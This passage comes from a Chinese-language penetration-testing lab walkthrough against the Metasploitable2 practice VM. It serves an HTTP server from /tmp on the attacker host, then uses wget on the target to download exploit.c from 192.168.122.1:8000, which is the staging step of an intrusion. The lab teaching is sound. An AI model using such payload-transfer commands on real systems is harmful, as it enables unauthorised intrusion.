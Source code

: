 接下来进入`/tmp`目录，使用 Python3 快速搭建 HTTP 服务，端口为 8000：

```bash
cd /tmp
python3 -m http.server 8000
```

![图片描述](..\images\2021-01-23_103.jpg)

使用 `ip addr` 命令查询到主机 IP 地址为 `192.168.122.1`：

![图片描述](..\images\2021-01-23_104.jpg)

在 Metasploitable2 终端中使用 wget 工具下载 `exploit.c` 并保存到`/tmp`:

```bash
wget 192.168.122.1:8000/exploit.c -P /tmp
```

![图片描述](..\images\2021-01-23_106.jpg)
